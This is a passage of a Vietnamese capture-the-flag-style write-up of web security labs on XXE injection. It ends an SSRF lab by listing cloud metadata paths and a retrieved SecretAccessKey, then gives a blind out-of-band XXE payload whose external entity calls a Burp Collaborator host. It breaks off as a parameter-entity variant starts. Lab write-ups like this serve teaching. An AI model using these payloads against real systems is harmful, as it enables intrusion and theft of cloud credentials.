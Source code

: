 ```
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/

```

- Ta cuối cùng tìm được điểm cuối
![image](https://hackmd.io/_uploads/r1FCEYhha.png)
- Nhận được `SecretAccessKey` là `1GhxmetMso4KEDmB70aHfPmkRRRimHBfRNPFxttg`
- Và cuối cùng ta đã giải quyết được bài này 
- ![image](https://hackmd.io/_uploads/BkgMHFn3p.png)


## [ Blind XXE with out-of-band interaction](https://)

- Đây là một bài Blind OOB- hiểu nôm na là sẽ phải nhận được kết quả ở chỗ khác thường là sever của chúng ta:<
- Có vẻ đây là một bài để chúng ta tiếp cận OOB thôi cho nên chúng ta chỉ cần làm cho nó tương tác được là được.
- Chức năng cũng là check Stock với productId và vì vậy chúng ta sẽ sử dụng burp collaborator để bắt DNS
- Payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://bbqig22iesj1hsf6pkyarrtdf4lv9pxe.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```

- Chúng ta tạo 1 DTD là stockCheck và trong đó có 1 entity sẽ load đến domain của chúng ta

- Kết quả nhận được là invalid productId
- ![image](https://hackmd.io/_uploads/SyDiuYn3T.png)
- ![image](https://hackmd.io/_uploads/SyC3uY33a.png)

- Và chúng ta đã giải quyết được bài này
- ![image](https://hackmd.io/_uploads/B1wZtYhhT.png)


## [Blind XXE with out-of-band interaction via XML parameter entities](https://)

- Đây cũng là 1 bài OOB sẽ nâng cấp hơn bài trên 1 chút là chúng ta dùng &xxe; sẽ bị block và giải pháp là dùng %xxe;
- Payload :-1: 
